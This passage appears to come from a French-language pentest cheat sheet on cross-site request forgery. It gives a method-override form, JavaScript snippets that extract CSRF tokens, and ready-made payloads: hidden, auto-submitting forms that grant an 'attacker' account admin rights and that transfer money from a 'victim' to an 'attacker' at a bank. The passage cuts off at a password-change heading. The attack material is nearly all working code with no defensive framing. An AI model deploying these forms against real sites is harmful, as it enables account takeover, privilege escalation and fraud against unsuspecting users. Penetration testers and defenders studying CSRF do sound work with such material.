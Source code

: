 **2. Method Override**

```html
<!-- Si le serveur accepte X-HTTP-Method-Override -->
<form action="http://target.com/action" method="GET">
    <input type="hidden" name="_method" value="POST">
    <!-- Ou via header avec fetch -->
</form>
```

**3. Extraction de Token**

```javascript
// Différentes façons d'extraire le token
// Regex générique pour tokens
var token = response.match(/name="csrf_token" value="([^"]+)"/)[1];

// Pour hash MD5 (32 chars hex)
var token = response.match(/[a-f0-9]{32}/)[0];

// XPath si structure complexe
var token = document.evaluate('//input[@name="csrf_token"]/@value', document).stringValue;
```

***

### <mark style="color:orange;">🎲 Payloads par Scénario</mark>

#### Activation de Compte Admin

```html
<!-- Formulaire d'activation automatique -->
<form action="http://target.com/admin/activate" method="post" style="display:none">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="status" value="active">
    <input type="hidden" name="role" value="admin">
</form>
<script>
setTimeout(() => document.forms[0].submit(), 1000);
</script>
```

#### Transfert d'Argent

```html
<form action="https://bank.com/transfer" method="post" style="display:none">
    <input type="hidden" name="from_account" value="victim">
    <input type="hidden" name="to_account" value="attacker">
    <input type="hidden" name="amount" value="999999">
</form>
<script>document.forms[0].submit();</script>
```

#### Changement de Mot de Passe
